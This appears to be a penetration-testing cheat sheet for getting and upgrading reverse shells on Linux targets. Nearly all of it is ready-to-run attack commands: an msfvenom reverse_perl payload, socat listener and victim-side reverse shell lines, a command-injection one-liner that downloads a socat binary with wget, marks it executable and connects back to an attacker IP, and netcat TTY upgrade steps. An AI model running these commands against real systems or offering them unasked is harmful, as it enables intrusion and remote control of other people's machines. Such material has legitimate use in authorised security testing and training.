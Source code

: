 ### Generating oneliner Shells with msfvenom

```text
$ msfvenom -l payloads | grep "cmd/unix" | awk '{print $1}'
```

```text
$ msfvenom -p cmd/unix/reverse_perl LHOST=10.11.0.120 LPORT=1234 R
```

### Method 1: Python pty import

```text
$ python -c'import pty; pty.spawn("/bin/bash")'
```

### Method 2: Using socat

On Kali:

```text
$ socat file:`tty`,raw,echo=0 tcp-listen:4444
```

On Victim:

```text
$ socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```

If socat isn't installed, you're not out of luck. There are standalone binaries that can be downloaded from this awesome Github repo:

[https://github.com/andrew-d/static-binaries](https://github.com/andrew-d/static-binaries)

With a command injection vuln, it's possible to download the correct architecture `socat` binary to a writable directoy, chmod it, then execute a reverse shell in one line:

```text
$ wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```

On Kali, you'll catch a fully interactive TTY session. It supports tab-completion, SIGINT/SIGSTP support, vim, up arrow history, etc.

### Method 3: Upgrading from netcat with magic

After catching a shell with netcat and upgrading it to a tty with python...

1. Background the shell with  \[ctrl-z \]
2. Find term type and TTY size

```text
$ nc -nlvp 1234
 [ctrl-z]
$ echo $TERM
$ stty -a
$ stty raw -echo
$ fg
$ reset
$ export SHELL=bash
$ export TERM=xterm-256color
$ stty rows 38 columns 116
```


